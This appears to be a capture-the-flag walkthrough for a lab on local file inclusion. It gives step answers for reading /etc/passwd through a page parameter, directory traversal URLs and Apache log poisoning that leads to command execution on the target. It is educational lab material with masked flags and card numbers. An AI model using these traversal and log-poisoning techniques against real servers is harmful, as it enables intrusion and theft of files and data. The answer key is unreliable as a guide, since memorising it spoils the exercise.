 # LFI Basics

- Start the VM and access it using your browser.

	  no answer needed

- Access the first walkthrough, and add a parameter at the end of the link named "?page=".

	  no answer needed

- Let's include the home page. At the "?page=" parameter enter home.html to include the home page.

	  no answer needed

- What's the message you get when you include the home.html?

	`You included home.html`

- Type /etc/passwd in the parameter to read it.

	  no answer needed

- What user that it's not by default there is present?

	- `lfi`

- Well done! You've exploited your first local file inclusion!

	  no answer needed

- Now that we know what Directory Traversal is, let's access the second walkthrough.

	  no answer needed

- Add the "?page=" parameter, and try to include the home page again. Does it work (Yes/No)?

	- `No`

- Use "../" to move one directory up.

	  no answer needed

- What are the credit card numbers?

	- `http://<TARGET_IP>/lfi2/lfi.php?page=../creditcard`
	- `****-****-****-****`

- The same way you can include the passwd file. You'll have to move more directories up. Try reading the passwd file.

	  no answer needed

	- `http://<TARGET_IP>/lfi2/lfi.php?page=../../../../../etc/passwd`

- Well done! You've exploited your first LFI using Directory Traversal.

	  no answer needed

- We got our hands a bit dirty with basic LFI and LFI using path traversal. Let's dig a little deeper, and use log poisoning to get access to the underlying operating system.

	  no answer needed

- We will inject some malicious php code into the server's log.

	  no answer needed

- Access the third walkthrough, add the "?page=" parameter and let's try reading the apache log file.
The log file is located at the following path: /var/log/apache2/access.log

	no answer needed
	
	- `http://<TARGET_IP>/lfi/lfi.php?page=/var/log/apache2/access.log`

- Can you read the log?

	- `yes`

- Forward the request and add your parameter to the link (in my case lfi).
The link becomes: http://<IP>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=
Now you can execute commands on the system!

	no answer needed

	- Open Burpsuite and set up the proxy.
	- Catch a request and edit it as shown, then forward it.
	- Add the lfi command to the url.

- Give it a try and run uname -r. What's the output of the command?

	- `4.15.0-72-generic`

- With this knowledge read the flag from the lfi user home directory

	- Add the command `ls%20/home/lfi` instead of `uname -r`
	- Add th command `cat%20/home/lfi/flag.txt`
	- `THM{************22******************}`


